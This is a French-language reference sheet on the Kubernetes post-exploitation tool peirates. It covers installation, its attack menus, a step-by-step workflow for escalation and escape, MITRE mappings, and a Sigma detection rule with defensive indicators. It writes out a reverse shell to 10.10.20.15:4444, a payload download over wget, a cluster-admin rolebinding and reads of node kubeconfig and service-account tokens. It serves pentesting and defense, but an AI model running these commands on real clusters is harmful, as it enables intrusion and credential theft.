


# peirates - Le framework de post-exploitation Kubernetes

> [!info] **En 1 phrase**
> peirates automatise l'escalade et le pivot dans un cluster Kubernetes depuis un pod compromis : vol de tokens de service accounts, accès aux secrets, évasion de conteneur et contrôle du cluster en quelques menus.

---

## Overview

| Champ | Valeur |
|---|---|
| Nom complet | peirates |
| Description | Framework interactif de post-exploitation Kubernetes : vole les tokens de service accounts, récupère les secrets, escale les permissions, pivote entre namespaces et s'échappe vers le nœud |
| Catégorie | Cloud & Containers |
| Sous-catégorie | Kubernetes / Post-exploitation / Escalade de privilèges |
| Type d'outil | Binaire Go interactif (menu) |
| Licence | GPL-2.0 |
| Open source / propriétaire | Open source |
| Langage(s) de programmation | Go |
| Développeur / organisation | InGuardians (Jay Beale et équipe) |
| Projet officiel | https://github.com/inguardians/peirates |
| Dépôt officiel | https://github.com/inguardians/peirates |
| Documentation officielle | https://github.com/inguardians/peirates/blob/main/README.md |
| Date de création | 2019 |
| État du projet | actif (dernier push 2025) |
| Dernière version connue | v1.1.28 |
| Systèmes compatients | Linux (binaire statique) ; conçu pour tourner dans un conteneur ou sur un nœud Kubernetes |

> [!note] Pour vérifier / compléter
> Version vérifiée sur https://github.com/inguardians/peirates/releases (v1.1.28). peirates est référencé par MITRE ATT&CK comme **S0683** (Kubernetes cluster exploitation) ; il faut un point d'entrée (RCE dans un pod) pour le lancer.

---

## Concept

peirates est conçu pour la phase où tu as **déjà un pied dans le cluster** (RCE dans un conteneur, accès à un nœud) mais pas encore le contrôle. Il centralise les techniques connues de post-exploitation Kubernetes dans un menu interactif :

- **Vol de tokens** : lecture du token monté dans `/var/run/secrets/kubernetes.io/serviceaccount/`, attaque des token-request APIs (Pod Token), récupération des tokens stockés dans les secrets.
- **Escalade RBAC** : exploitation des permissions du service account (create pods, create rolebindings, impersonation) pour atteindre `cluster-admin`.
- **Évasion de conteneur** : montage du filesystem du nœud (hostPath), exploitation de CVE (ex : CVE-2024-21626), reverse shell vers le nœud.
- **Pivot** : port scan interne, découverte des namespaces, usage des tokens volés pour se déplacer latéralement.
- **Cloud** : interrogation des métadonnées AWS/GCP, listage des buckets S3.

L'outil est **interactif** : chaque action est proposée dans un menu, ce qui le rend très efficace en pentest « live » et très verbeux pour la démonstration. Il s'appuie sur les bibliothèques kubectl et l'API Kubernetes directement.



---

## Concepts fondamentaux

| Concept | Explication |
|---|---|
| Service account | Identité du pod ; son token est monté dans `/var/run/secrets/kubernetes.io/serviceaccount/` |
| Token-request API | API Kubernetes permettant à un SA de demander un token pour un autre SA (selon les droits) |
| RBAC | Roles/ClusterRoles + bindings : le moteur des permissions que peirates cherche à étendre |
| Impersonation | Utilisation de `--as` pour agir comme un autre principal (si permis) |
| hostPath | Volume montant un dossier du nœud dans le pod : porte d'évasion directe |
| CVE-2024-21626 | Vulnérabilité runc (Leaky Vessels) permettant de sortir du conteneur via la CWD |
| Namespace | Périmètre logique ; peirates pivote entre namespaces avec les tokens volés |
| Metadata API | Endpoints cloud (AWS `169.254.169.254`, GCP metadata) exposant credentials et clés |

---

## Installation

peirates se déploie en binaire statique (download ou build) ou en image conteneur.

### Téléchargement du binaire

```bash
# Depuis la page des releases
curl -L https://github.com/inguardians/peirates/releases/download/v1.1.28/peirates -o peirates
chmod +x peirates
./peirates
```

### Image conteneur (alpine-peirates)

```bash
# Image avec binaire peirates inclus
docker pull bustakube/alpine-peirates:1.1.28
# Puis copier le binaire dans le pod compromis (ex : via kubectl cp)
```

### Compilation depuis les sources

```bash
git clone https://github.com/inguardians/peirates.git && cd peirates
# Récupérer les dépendances kubectl (gros téléchargement)
go get -v "github.com/inguardians/peirates" "k8s.io/kubectl/pkg/cmd"
cd scripts && ./build.sh
```

> [!warning] Prérequis & problèmes potentiels
> - Il faut une **exécution de code dans un conteneur Kubernetes** ou un accès à un nœud : peirates n'est pas un scanner de premier accès.
> - Le binaire doit être transféré dans le pod (wget, curl, kubectl cp, ou base64) puis exécuté.
> - « This tool attacks a Kubernetes cluster » : obtenir l'autorisation écrite du propriétaire avant usage.

---

## Configuration

peirates n'a pas de fichier de configuration global : il découvre son environnement (token monté, API server) au démarrage et propose ses actions en menu.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| Token monté | Identité initiale | `/var/run/secrets/kubernetes.io/serviceaccount/token` | Base de toutes les actions | lecture au boot |
| API server | Endpoint à attaquer | IP/FQDN du cluster | Cible des requêtes | détecté via env/`kubernetes.default` |
| Menu principal | Sélection d'action | liste numérotée | Choix de la technique | `1` à `N` |
| Sous-menus | Détails d'une action | variables / confirmation | Paramétrage | namespace, SA cible |
| Variables d'env | Adaptations ponctuelles | `KUBERNETES_SERVICE_HOST`... | Connexion | standard pod |

---

## Architecture interne

peirates est un binaire Go organisé en modules d'attaque, pilotés par un menu interactif :

- **kubeapi** : client de l'API Kubernetes (basé sur les bibliothèques kubectl) pour les requêtes get/create/list.
- **service_account_utils** : lecture des tokens, gestion des tokens volés, switch entre identités.
- **kubectl_interactive** : le menu principal qui orchestre les choix de l'opérateur.
- **modules d'attaque** : fichier dédiés (`attack_create_hostfs_pod.go`, `exec_via_kubelet_api.go`, `cve-2024-21626.go`, `inject-into-pod-alpha.go`, `list_secrets.go`, `node_secrets.go`, `portscan.go`, `aws.go`, `gcp.go`, ...).
- **decode_jwt** : décodage des JWT pour inspecter les claims (sans vérifier la signature).



---

## Commandes

### Commandes principales

| Commande | Objectif | Résultat attendu |
|---|---|---|
| `./peirates` | Lancer le menu interactif | Liste des techniques proposées |
| Menu « Steal a Service Account Token » | Récupérer le token monté | Token + identité du SA courant |
| Menu « Get tokens from secrets » | Voler les tokens des secrets | Liste des tokens SA disponibles |
| Menu « Create hostPath pod » | Évasion vers le nœud | Shell sur le nœud |
| Menu « Port scan » | Scan interne | Services internes découverts |
| Menu « kubectl interactive » | Commandes kubectl wrappées | Actions API libres |

### Commandes avancées

```bash
# Lancer le menu principal
./peirates

# Décoder un JWT volé pour inspecter les claims
./peirates --decode-jwt <token>

# Utiliser l'interface kubectl intégrée une fois une identité volée
# (dans le menu : option « Launch interactive kubectl session »)
```

---

## Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| (aucun) | Menu interactif | `./peirates` | Basic |
| `--decode-jwt` | Décoder un JWT | `--decode-jwt <token>` | Intermediate |
| (menus) | Sélection des techniques | option 1..N | Basic |
| (sous-menus) | Paramétrage des actions | namespace, IP cible | Intermediate |
| Variables env pod | Connexion auto à l'API | `KUBERNETES_SERVICE_HOST` | Basic |

> [!tip] Les points d'entrée du menu
> Le menu principal regroupe : Steal tokens, Get secrets, Create hostPath pod, Exec via kubelet, Port scan, Impersonate, Enumerate namespaces/SA/pods, Cloud metadata (AWS/GCP). Explorer chaque entrée en séquence pour maximiser l'escalade.

---

## Exemples pratiques

### Beginner

```bash
# Lancer peirates dans le pod compromis
./peirates
```

Résultat attendu : un menu numéroté listant les techniques de post-exploitation, avec la détection du token de service account monté.

### Intermediate

```bash
# Récupérer le token du service account courant
# (menu : Steal a Service Account Token)
# Puis lister les secrets accessibles
# (menu : Get secrets)

# Décoder un JWT volé
./peirates --decode-jwt eyJhbGciOiJSUzI1NiIsImtpZCI6...
```

### Advanced

```bash
# Port scanner interne depuis le pod
# (menu : Port scan, cible 10.10.20.15, ports courants)

# Énumérer les namespaces et service accounts
# (menu : Enumerate service accounts in the current namespace)
```

### Expert

```bash
# Évasion de conteneur vers le nœud
# (menu : Create hostPath pod, puis reverse shell vers le poste)
# Exemple de reverse shell dans le pod créé :
# /bin/sh -c '/bin/sh -i >& /dev/tcp/10.10.20.15/4444 0>&1'

# Exploitation de CVE-2024-21626 si le runtime runc est vulnérable
# (menu dédié si proposé par la version)
```

---

## Workflow complet (scénario pas à pas)

1. **Déposer le binaire** - transférer peirates dans le pod compromis.
   ```bash
   # depuis le poste (si kubectl)
   kubectl cp peirates <ns>/<pod>:/tmp/peirates
   # depuis le pod (si wget/curl)
   wget -O /tmp/peirates http://10.10.20.15:8000/peirates && chmod +x /tmp/peirates
   ```
2. **Démarrer et voler le token** - identifier l'identité initiale.
   ```bash
   /tmp/peirates
   # menu -> Steal a Service Account Token
   ```
3. **Tester les permissions** - via le menu ou l'interface kubectl intégrée.
   ```
   # menu -> Launch interactive kubectl session -> auth can-i --list -A
   ```
4. **Énumérer et pivoter** - namespaces, SA, secrets, port scan interne.
   ```
   # menu -> Enumerate namespaces / Get tokens from secrets / Port scan
   ```
5. **Escalader** - rolebinding, hostPath pod, ou CVE selon les droits.
   ```
   # menu -> Create hostPath pod (évasion) ou escalade RBAC
   ```
6. **Contrôler** - une fois `cluster-admin` ou shell nœud obtenu, exfiltrer et documenter.

---

## Scénarios avancés

### Scénario 1 : Du token de pod au cluster-admin

```bash
# 1. Récupérer le token courant
# (menu : Steal a Service Account Token)

# 2. Tester les droits : le SA peut-il lister/voler les tokens ?
# (menu : Get tokens from secrets, ou kubectl interactif)
kubectl auth can-i get secrets -A
kubectl auth can-i create rolebindings -A

# 3. Créer un rolebinding cluster-admin pour son SA
kubectl create rolebinding pwn-admin --clusterrole=cluster-admin \
  --serviceaccount=<ns>:<sa> -n <ns>

# 4. Confirmer le contrôle total
kubectl auth can-i --list -A | head -20
```

### Scénario 2 : Évasion de conteneur via hostPath

```bash
# 1. Menu : Create hostPath pod (si pods/create est permis)
# 2. Le pod créé monte le filesystem du nœud
# 3. Reverse shell vers le poste (ou exec dans le pod)
chroot /host /bin/sh
cat /host/etc/kubernetes/admin.conf   # kubeconfig du nœud
cat /host/var/lib/kubelet/config.yaml
```

---

## Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Exploitation | Vol de tokens, création de pods privilégiés |
| Post-exploitation | Escalade RBAC, évasion de conteneur, contrôle du cluster |
| Privilège Escalation | hostPath pod, impersonation, rolebinding cluster-admin |
| Lateral Movement | Port scan interne, pivot entre namespaces |
| Exfiltration | Récupération des secrets et des tokens des nœuds |
| Discovery | Énumération pods/SA/namespaces, cloud metadata |

---

## MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Credential Access | Steal Application Access Token | T1528 | Vol des tokens de service accounts | Audit logs token-request | Automount désactivé, RBAC |
| Credential Access | Unsecured Credentials : Container API | T1552.007 | Interrogation de l'API K8s pour les secrets | Audit logs list/get secrets | RBAC minimal |
| Credential Access | Unsecured Credentials : Cloud Instance Metadata API | T1552.005 | Query metadata AWS/GCP | EDR, alerting metadata | IMDSv2, durcissement |
| Privilege Escalation | Escape to Host | T1611 | Évasion via hostPath | Pod Security, Falco | Admission controllers |
| Privilege Escalation / Execution | Deploy Container | T1610 | Création d'un pod hostPath | Audit create pods | RBAC pods/create |
| Execution | Container Administration Command | T1609 | Exec via kubectl/API | Audit exec, Falco | RBAC pods/exec |
| Discovery | Container and Resource Discovery | T1613 | Énumération pods/SA/namespaces | Audit logs | RBAC minimal |
| Discovery | Network Service Discovery | T1046 | Port scan interne | IDS réseau | NetworkPolicy |
| Lateral Movement | Use Alternate Authentication Material : App Token | T1550.001 | Usage des tokens volés pour pivoter | Détection d'anomalies auth | Rotation, audit |
| Collection | Data from Cloud Storage | T1530 | Dump de buckets S3 (kOps) | CloudTrail | Buckets privés |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> Peirates est référencé comme **S0683** par MITRE ATT&CK : les techniques ci-dessus sont documentées officiellement.

---

## Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| Binaire `peirates` dans un pod/volume | Post-exploitation active |
| Requêtes `SelfSubjectAccessReview` en rafale | Énumération des permissions |
| Appels token-request API anormaux | Vol de tokens |
| Création de pods hostPath/hostPID | Tentative d'évasion |
| Connexions sortantes vers un poste (reverse shell) | C2 depuis le cluster |
| Interrogations du metadata cloud | Vol de credentials cloud |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# Sigma - Kubernetes : usage de peirates (création de pod hostPath + token-request)
title: K8s Peirates Post-Exploitation Activity
id: 0b0b2f90-0000-4a9a-8c5f-000000000111
status: experimental
logsource:
    product: kubernetes
    service: apiserver
detection:
    selection_hostpath:
        verb: 'create'
        objectRef.resource: 'pods'
        requestObject.spec.volumes.hostPath: present
    selection_tokens:
        objectRef.resource: 'serviceaccounts/token'
    condition: selection_hostpath or selection_tokens
falsepositives:
    - Outils de debug légitimes (rare)
level: high
```

> [!note] À vérifier
> Exemple pédagogique : l'identifiant Sigma est fictif et à régénérer si publié ; adapter aux champs réels des audit logs.

---

## Automatisation

peirates est interactif ; les étapes répétables sont reproduites via les API/wrappers :

```bash
# Bash - déploiement rapide du binaire dans un pod (via kubectl)
kubectl cp ./peirates <ns>/<pod>:/tmp/peirates
kubectl exec -it <ns>/<pod> -- chmod +x /tmp/peirates
kubectl exec -it <ns>/<pod> -- /tmp/peirates

# Bash - extraire le token monté sans le menu (équivalent de l'action)
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
kubectl --token=$TOKEN --insecure-skip-tls-verify=true auth can-i --list -A
```

```python
# Python - tester les permissions avant d'utiliser peirates
import os
import urllib.request

token = open("/var/run/secrets/kubernetes.io/serviceaccount/token").read()
host = os.environ["KUBERNETES_SERVICE_HOST"]
url = f"https://{host}:6443/api/v1/namespaces"
req = urllib.request.Request(url, headers={"Authorization": f"Bearer {token}"})
try:
    print(urllib.request.urlopen(req).status)
except Exception as e:
    print(e)
```

---

## Output et parsing

Le menu affiche les résultats en texte ; les tokens volés sont affichés et mémorisés pour être réutilisés dans les menus. L'interface kubectl intégrée permet les sorties standard (wide/json) pour le parsing.

```bash
# Via l'interface kubectl de peirates, parser avec jq
kubectl get secrets -A -o json | jq -r '.items[].metadata.name'

# Sauvegarder un token volé pour usage externe
echo "<token>" > /tmp/token.txt
kubectl --token=$(cat /tmp/token.txt) --insecure-skip-tls-verify=true get pods -A
```

---

## Intégrations

- [[Tools| Outils]] global
- [[Outil - kubectl|kubectl]] - complément direct (commandes hors menu)
- [[Outil - kube-hunter|kube-hunter]] - reconnaissance réseau avant exploitation
- [[Outil - kube-bench|kube-bench]] - cartographie des misconfigs à exploiter
- [[Outil - cloudfox|cloudfox]] - accès initial aux kubeconfigs EKS (amont)
- [[Outil - trivy|trivy]] - CVE des images du cluster (choix de l'entrée)
- Bust-a-Kube / kube-hunter - écosystème InGuardians

```text
cloudfox/kube-hunter (accès) -> kubectl (premier pivot) -> peirates (post-exploitation)
```

---

## Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| kubectl | Contrôle total, scriptable | Manuel pour les techniques avancées | Énumération/exploitation |
| kube-hunter | Scan réseau passif | Pas de post-exploitation | Reconnaissance |
| kube-bench | Audit de posture | Pas d'attaque | Évaluation |
| Bust-a-Kube (CKAD) | Lab Kubernetes, pédagogie | Pas un framework | Entraînement |
| Metasploit (post/kubernetes) | Intégré à MSF | Moins spécialisé | Exploitation générique |

---

## Performance

- **Rapide** : binaire statique Go ; démarrage immédiat dans le pod.
- **Peu de ressources** : adapté aux conteneurs limités (CPU/mémoire).
- **Interactif** : chaque action est à la demande ; pas de scan massif automatique (discret si maîtrisé).
- **Coût réseau** : les requêtes API sont le signal le plus visible ; espacer les énumérations lourdes.

---

## Troubleshooting

### Common problems

#### Problème : peirates ne détecte pas l'API server

- **Cause** : variables `KUBERNETES_SERVICE_HOST`/`PORT` absentes ou réseau segmenté.
- **Solution** : renseigner l'endpoint manuellement (`kubernetes.default.svc.cluster.local`), vérifier la connectivité.
- **Vérification** : `kubectl cluster-info` depuis l'interface intégrée.

#### Problème : le token volé ne donne aucun droit

- **Cause** : RBAC restreint, `automountServiceAccountToken: false`, ou impersonation non permise.
- **Solution** : chercher les tokens des autres SA dans les secrets ; tester les token-requests ; pivoter.
- **Vérification** : `kubectl auth can-i --list -A`.

#### Problème : la création du pod hostPath échoue (forbidden)

- **Cause** : pas de droit `pods/create`, ou admission controller bloquant (Pod Security, Gatekeeper).
- **Solution** : tenter l'évasion via CVE runtime (CVE-2024-21626) ou l'exécution via kubelet exposé.
- **Vérification** : `kubectl auth can-i create pods -A`.

---

## Sécurité de l'outil

- **Cadre légal** : peirates « attaque » volontairement le cluster : autorisation écrite obligatoire (pentest signé, lab).
- **Impact** : l'évasion hostPath et les rolebindings cluster-admin modifient l'état du cluster : impacts à assumer.
- **Traçabilité** : toutes les actions passent par l'API server → audit logs ; les étapes sont documentées.
- **Credential handling** : les tokens volés sont sensibles : ne pas les committer, les protéger.
- **Binaire officiel** : compiler/télécharger depuis les sources officielles pour éviter les binaires piégés.

---

## Limitations

- **Post-exploitation uniquement** : il faut déjà une exécution de code dans le cluster.
- **Interactif** : moins adapté à l'automatisation que kubectl pur.
- **Couverture** : pas toutes les techniques K8s (évolue par contributions) ; certaines nécessitent kubectl en complément.
- **Version de cluster** : les techniques dépendent des versions (API token-request, CVE runtime).
- **Bruit** : les opérations d'énumération sont visibles dans les audit logs.

---

## Cheatsheet

```bash
# Lancer peirates dans le pod
/tmp/peirates

# Déposer le binaire depuis le poste
kubectl cp peirates <ns>/<pod>:/tmp/peirates
kubectl exec -it <ns>/<pod> -- chmod +x /tmp/peirates

# Décoder un JWT
./peirates --decode-jwt <token>

# Token monté (équivalent menu)
cat /var/run/secrets/kubernetes.io/serviceaccount/token

# Vérifier les droits avant de lancer
kubectl --token=<token> auth can-i --list -A

# Reverse shell classique depuis le pod hostPath
/bin/sh -i >& /dev/tcp/10.10.20.15/4444 0>&1
```

---

## Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Post-exploitation Kubernetes : escalade, pivot, évasion, secrets |
| **Quand l'utiliser ?** | Dès qu'une RCE dans un pod est obtenue |
| **Commande principale** | `./peirates` (menu interactif) |
| **Alternative principale** | kubectl manuel + techniques ad hoc |
| **Concepts importants** | Service account, RBAC, hostPath, impersonation, token-request |
| **Liens associés** | [[Outil - kubectl]] · [[Outil - kube-hunter]] · [[Outil - cloudfox]] |

---

## Détection & Défense

| Signe | Défense |
|---|---|
| Binaire `peirates` détecté | Durcissement images, falco, approval |
| Rafales de `SelfSubjectAccessReview` | Alerting sur auth can-i |
| Création de pods hostPath | Pod Security Admission restricted |
| Appels token-request | Rotation des tokens, RBAC |
| Connexions sortantes anormales | NetworkPolicy egress |
| Query metadata cloud | IMDSv2, EDR |

---

## Tips & Pièges

> [!tip] **Tips**
> - Commence par voler le token courant et tester les droits AVANT toute technique lourde : `auth can-i --list`.
> - Les tokens des autres SA dans les secrets sont souvent plus privilégiés : priorise le menu « Get tokens from secrets ».
> - Utilise l'interface kubectl intégrée pour les actions hors menu sans quitter peirates.
> - Découpe la démo : montre le menu, un token, une escalade, une évasion, dans cet ordre.

> [!warning] **Pièges**
> - peirates ne crée pas d'accès initial : sans RCE dans un pod, inutile de l'emporter.
> - Les actions (rolebinding, hostPath) sont **destructives/persistantes** : impacts à valider avec le client.
> - Tout est loggé par l'API server : l'outil est facile à détecter en audit a posteriori.
> - Les versions récentes de Kubernetes limitent le token-request et automount : adapte la technique.

---

## References

### Official

- Dépôt officiel : https://github.com/inguardians/peirates
- Page InGuardians : https://www.inguardians.com/peirates/
- Releases : https://github.com/inguardians/peirates/releases
- Documentation : https://github.com/inguardians/peirates/blob/main/README.md
- Image conteneur : https://hub.docker.com/r/bustakube/alpine-peirates

### Security references

- MITRE ATT&CK S0683 - Peirates : https://attack.mitre.org/software/S0683/
- MITRE ATT&CK T1611 - Escape to Host : https://attack.mitre.org/techniques/T1611/
- MITRE ATT&CK T1528 - Steal Application Access Token : https://attack.mitre.org/techniques/T1528/
- CVE-2024-21626 (runc / Leaky Vessels) : https://nvd.nist.gov/vuln/detail/CVE-2024-21626
- Kubernetes Hardening Guide (NSA/CISA) : https://www.cisa.gov/resources-tools/resources/kubernetes-hardening-guidance

### Community

- HackTricks - Kubernetes pentesting : https://book.hacktricks.wiki/en/network-services-pentesting/kubernetes-pentesting.html
- kube-hunter (écosystème InGuardians) : https://github.com/aquasecurity/kube-hunter

---

**Liens :** [[Tools| Outils]] · [[Outil - kubectl|kubectl]] · [[Outil - kube-hunter|kube-hunter]] · [[Outil - cloudfox|cloudfox]]
